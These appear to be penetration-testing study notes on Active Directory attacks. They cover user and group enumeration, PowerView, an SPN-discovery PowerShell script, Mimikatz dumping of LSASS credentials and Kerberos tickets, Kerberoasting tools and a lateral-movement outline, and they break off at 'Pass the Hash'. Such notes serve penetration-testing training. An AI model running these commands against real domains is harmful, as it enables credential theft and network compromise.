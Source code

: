 ```yaml
---
description: Page 623
---
```


# Methodology

## Enumeration

* Just landed on a box?&#x20;

```
whoami /priv
```

## Traditional Approach

Enumerate all local accounts:

```
net user
```

Enumerate all users in the entire domain:

```
net user /domain

net user jeff_admin /domain
```

Enumerate all groups in the domain:

```
net group /domain
```

## Modern Approach

Transfer Tools to compromised host

Kali:

```
impacket-smbserver smb .
```

Windows:

```
net use \\kali-ip\smb

copy \\kali-ip\smb\PowerView.ps1 .

dir

PowerView.ps1
```

Import module:

```
Import-Module .\PowerView.ps1
```

Enumerate logged-in users:

```
Get-NetLoggedon -ComputerName client251
```

Enumerate all active sessions:

```
Get-NetSession -ComputerName dc01
```

## SPNs

* An alternative to attacking a domain user account is to target so-called service accounts
* It is very possible that they are members of high-value groups

PowerShell script used to detect registered service principal names:

```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter="serviceprincipalname=*http*"
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
 Foreach($prop in $obj.Properties)
 {
 $prop
 }
}
```

## Authentication

### New Technology LAN Manager (NTLM)

* <mark style="color:yellow;">NTLM is used when a client authenticates to a server by IP address instead of hostname</mark>

### Kerberos

* <mark style="color:yellow;">Kerberos authentication involves the usage of a Domain Controller that is in the role of a Key Distribution Center (KDC).</mark>

### Cached Credential Storage and Completion

* Kerberos makes use of SSO password hashes
* These hashes are stored in memory space known as Local Security Authority Subsystem Service (<mark style="color:yellow;">LSASS</mark>) memory space
* <mark style="color:yellow;">If we are able to gain access to these hashes, we could take them offline and crack them to obtain the cleartext password or reuse them to perform various actions</mark>

### Mimikatz

* Transfer Mimikatz to the Windows host through our SMB server
* We will be running Mimikatz locally
* If it is acting up, it may be due to an Evil-WinRM shell
* Attempt another reverse shell if possible

Usage:

```
.\Mimikatz.exe

privilege::debug

sekurlsa::logonpasswords
```

* This should dump the credentials of all logged-on users using the Sekurlsa module
* Armed with hashes? Crack them offline and pass them around the network.

Dumping tickets in memory:

```
sekurlsa::tickets
```

* If you get a TGT or TGS, this would <mark style="color:yellow;">allow you to access particular resources associated with those tickets</mark>
* <mark style="color:yellow;">Also, if you are armed with a TGT ticket, you could request a TGS for specific resources you want to target within the domain</mark>

```
kerberos::list /export

1-40a50000-offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
```

### Kerberoasting

```
tgsrepcrack.py

impacket-GetUserSPNs
 
hashcat
```

## Lateral Movement

* Locate high-value targets
* Find workstations or servers that these targets are logged into
* Gather password hashes
* Recover existing tickets
* Leverage them for Kerberos Authentication

<mark style="color:yellow;">Do all of the above in order to use lateral movement to compromise other machines within the domain.</mark>

<mark style="color:yellow;">A logical step would be to crack any password hashes that you may have obtained and authenticate to a machine with cleartext passwords to gain access.</mark>

<mark style="color:yellow;">Can we pass the hash if password cracking is not possible?</mark>

### Pass the Hash

655





















